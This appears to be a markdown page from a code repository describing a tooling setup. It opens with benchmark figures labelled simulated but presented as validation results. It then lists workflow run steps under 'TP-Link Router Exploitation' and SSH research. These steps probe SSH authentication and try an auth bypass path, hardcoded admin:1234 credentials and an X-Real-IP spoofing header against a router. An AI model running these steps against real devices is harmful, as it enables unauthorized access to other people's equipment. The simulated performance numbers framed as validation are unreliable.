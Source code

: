## 📊 **PERFORMANCE VALIDATION RESULTS**

### Exponential Tree Performance Testing
Based on RULES.md theoretical predictions:
```bash
# Performance Benchmarks (Simulated)
Level 0 (Coordinator): ~43s (matrix generation)
Level 1 (Parallel Branches): ~2m36s per branch (parallel execution)
Level 2 (Aggregation): ~30s (result compilation)

# Expected Results
Total Tree Execution: ~3m30s
Theoretical Linear: ~8m (sequential execution)
Expected Speedup: 2.3x improvement
```

### Tool Availability Validation
Comprehensive nix package verification:
```bash
# Core Development Tools ✅
nodejs, python3, go, rust, gcc

# Network Analysis Tools ✅
nmap, curl, netcat, traceroute

# Security Research Tools ✅
tor, openssh, openssl

# Community Infrastructure ✅
gitea, searx, yggdrasil, ipfs
```

## 🎯 **VULNERABILITY RESEARCH INTEGRATION**

### SSH Authentication Research (Based on 2024 vulnerability research)
```yaml
# CVE-2018-10933 (LibSSH bypass)
- run: nix-shell -p nmap --run 'nmap --script ssh-auth-methods target'

# Alternative authentication methods
- run: nix-shell -p openssh --run 'ssh-keygen -t ed25519 -f test_key'

# Protocol version testing
- run: nix-shell -p openssh --run 'ssh -1 -o ConnectTimeout=5 target'
```

### TP-Link Router Exploitation (2024 CVEs)
```yaml
# CVE-2024-57049 (Authentication bypass)
- run: nix-shell -p curl --run 'curl -s http://router/cgi-bin/luci'

# CVE-2024-57040 (Hardcoded credentials)
- run: nix-shell -p curl --run 'curl -s -u "admin:1234" http://router'

# CVE-2023-50224 (Authentication spoofing)
- run: nix-shell -p curl --run 'curl -s -H "X-Real-IP: 127.0.0.1" http://router'
```
